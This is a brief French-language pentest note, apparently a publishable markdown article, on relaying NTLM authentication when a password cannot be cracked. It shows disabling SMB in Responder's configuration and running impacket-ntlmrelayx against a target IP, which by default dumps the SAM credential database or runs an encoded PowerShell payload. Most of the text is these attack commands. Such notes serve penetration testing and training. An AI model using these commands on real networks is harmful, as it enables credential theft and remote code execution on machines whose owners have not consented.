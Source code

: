 ```yaml
---
public: true # set to true to make the article publishable
---
```


Il est parfois possible de relayer une demande d'authentification lorsqu'on arrive pas à casser un mot de passe.

```
# On désactive d'abord SMB dans la configuration du responder 

cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```
# On lance ensuite impacket :
impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP

## Lorsqu'on recoit une connexion SMB, elle est relayée vers $TARGET_IP
## Par défaut un dump de la SAM est réalisé

## On peut également exécuter une commande :
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <B64_PAYLOAD>'
```

